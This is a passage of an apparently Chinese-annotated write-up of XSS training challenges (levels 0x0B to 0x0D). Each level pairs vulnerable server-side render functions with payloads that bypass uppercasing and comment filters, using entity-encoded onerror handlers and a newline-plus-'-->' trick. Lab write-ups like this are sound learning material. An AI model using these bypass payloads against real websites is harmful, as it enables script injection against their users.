 ```html
```

## 0x0B
html对大小写不敏感
js对大小写敏感
servercode
```js
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```
input
```html
<img src="" onerror=&#97;&#108;&#101;&#114;&#116;(1);>
```

## 0x0C
servercode
```js
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```
input
```html
<img src="" onerror=&#97;&#108;&#101;&#114;&#116;(1)>
```

## 0x0D
单行注释直接回车
servercode
```js
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```
input
```html

alert('1');
-->
```
